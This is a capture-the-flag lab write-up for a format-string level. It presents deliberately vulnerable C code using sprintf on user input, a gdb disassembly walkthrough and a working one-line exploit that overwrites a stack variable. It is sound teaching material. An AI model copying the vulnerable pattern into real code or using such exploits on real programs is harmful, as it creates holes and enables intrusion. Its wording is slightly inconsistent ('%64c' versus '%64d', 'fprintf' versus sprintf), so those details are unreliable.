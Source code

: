 ```yaml
---
title: Format 0
sidebar_position: 9
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
> **Hints**
> - This level should be done in less than 10 bytes of input.
> - “Exploiting format string vulnerabilities”

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
- The program expects one user supplied argument as shown by `vuln(argv[1]);`.
- The code then uses `sprintf` which is where the vulnerability lies.
```
## Bugs

Because **sprintf**() and **vsprintf**() assume an arbitrarily long string, callers must be careful not to overflow the actual space; this is often impossible to assure. Note that the length of the strings produced is locale-dependent and difficult to predict. Use **snprintf**() and **vsnprintf**() instead (or **[asprintf](https://linux.die.net/man/3/asprintf)**(3) and **[vasprintf](https://linux.die.net/man/3/vasprintf)**(3)).

Linux libc4.[45] does not have a **snprintf**(), but provides a libbsd that contains an **snprintf**() equivalent to **sprintf**(), that is, one that ignores the _size_ argument. Thus, the use of **snprintf**() with early libc4 leads to serious security problems.

Code such as **printf(**_foo_**);** often indicates a bug, since _foo_ may contain a % character. If _foo_ comes from untrusted user input, it may contain **%n**, causing the **printf**() call to write to memory and creating a security hole.
```
- Before we exploit the program, we need to know how the stack is laid out.
- Let's disassemble the `vuln` function.
```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
```
- We can see that the line at `vuln+26` makes the call to `sprintf`.
```
--snip--;
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
--snip--;
```
- The first argument is the address `ebp-0x4c` and it is loaded into `eax`.
- If we look at the man page of `sprintf` we can see that the first argument is the location of the buffer.
```c
int sprintf(char *restrict _s_, const char *restrict _format_, ...);
```
- Looking back at the disassembled code of `vuln` at `vuln+34` a comparison is being made.
```
--snip--;
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
--snip--;
```
- This is checking if the `target` variable is set to `0xdeadbeef`. The value being compared is being moved from `ebp-0xc`.
- So we know the location of the `buffer` as well as the `target` variable. Let's find the distance between them.
```
(gdb) p/d 0x4c - 0xc
$1 = 64
```
- So the distance is 64 bytes but we have been instructed to use less than 10 bytes. Which means a classic buffer overflow will not work.
- This is where the format string attack comes in.
- Instead of submitting 64 bytes of padding we can submit the format string `%64c` which translates to 64 characters.
- When `fprintf` is executed, it takes the bytes after the format string and overwrites the `target` variable.

## Exploit
```
$ ./format0 $(python -c 'print "%64d\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

